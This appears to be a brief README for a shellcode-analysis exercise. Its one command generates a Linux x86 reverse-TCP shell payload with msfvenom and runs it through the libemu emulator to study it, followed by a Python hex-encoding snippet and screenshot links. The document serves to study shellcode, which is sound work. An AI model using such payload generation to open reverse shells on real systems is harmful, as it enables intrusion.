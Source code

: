 # Exercise 2


```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" bindshell | tee libemu_res/libemu_res.txt
```

Get Argc value: 	https://forum.nasm.us/index.php?topic=889.0

Python:
```
c[::-1].encode('hex')
```


![Screenshot](images/1.png)

![Screenshot](images/2.png)

![Screenshot](images/3.png)

![Screenshot](images/resd_problem/1.png)

![Screenshot](images/resd_problem/2.png)

![Screenshot](images/resd_problem/3.png)

![Screenshot](images/resd_problem/4.png)

![Screenshot](images/resd_problem/5.png)